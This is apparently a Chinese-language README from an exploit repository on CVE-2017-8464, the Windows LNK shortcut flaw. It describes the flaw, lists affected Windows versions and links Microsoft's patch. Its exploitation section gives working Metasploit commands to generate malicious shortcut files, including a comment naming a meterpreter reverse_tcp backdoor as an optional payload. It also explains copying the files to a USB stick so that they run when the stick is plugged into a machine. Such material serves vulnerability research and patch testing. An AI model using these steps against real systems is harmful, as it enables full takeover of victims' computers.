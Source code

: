 ### CVE-2017-8464

#### 描述

该漏洞的原理同2010年美国和以色列入侵并破坏伊朗核设施的震网行动中所使用的穿透核设施隔离网络的漏洞（CVE-2010-2568）非常类似，当存在漏洞的电脑被插上保存有漏洞文件的U盘时，不需要额外操作，漏洞攻击程序就可以执行并完全控制用户的电脑系统

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested |
| ------------------- | ---------------- | ------- | ------ | ------ |
| Windows 10          | x86/x64          |         |        |        |
| Windows 10          | x86/x64          | 1511    |        |        |
| Windows 10          | x86/x64          | 1607    |        |        |
| Windows 10          | x86/x64          | 1703    |        |        |
| Windows 7           | x86/x64          |         | SP1    |        |
| Windows 8.1         | x86/x64          |         |        |        |
| Windows Rt 8.1      |                  |         |        |        |
| Windows Server 2008 | x86/x64          |         | SP2    |        |
| Windows Server 2008 | x86/x64          | R2      | SP1    |        |
| Windows Server 2012 |                  |         |        |        |
| Windows Server 2012 |                  | R2      |        |        |
| Windows Server 2016 |                  |         |        |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-8464
```

#### 利用方式

测试机器Windows 7 SP1 x64，直接用msf来利用

```
use exploits/windows/fileformat/cve_2017_8464_lnk_rce
set payload windows/x64/exec #要是x86使用windows/exec，还可以设置后门windows/x64/meterpreter/reverse_tcp
set cmd cmd.exe
set EXITFUNC thread
run
```

生成文件

![CVE-2017-8464_win7_x86_msf](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2017-8464_win7_x86_msf.png)

运行命令把它拷贝到test目录下

```
cp -r /root/.msf4/local/ /root/test
```

![CVE-2017-8464_win7_x86_msf2](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2017-8464_win7_x86_msf2.png)

接着把这些文件全部拷贝到U盘中，然后插上电脑即可

测试机器是虚拟机，所以需要打一个补丁**KB2533623**和装一个驱动**Intel(R)_USB_3.0_eXtensible_Host_Controller_Driver_5.0.4.43_v2**，然后USB设置为3.0，Windows7的补丁放在了这里

```
https://github.com/Ascotbe/WinKernelhub/tree/master/Patch
```

GIF图如下

![1](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2017-8464_win7_x86.gif)

#### 分析文章
- https://my.oschina.net/u/4310658/blog/3695267
- https://www.anquanke.com/post/id/202705
- https://wohin.me/0dayan-quan-external-stuxnet-cve-2017-8464/
- https://blog.csdn.net/baidu_41647119/article/details/103875396
- http://www.vxjump.net/files/vuln_analysis/cve-2017-8464.txt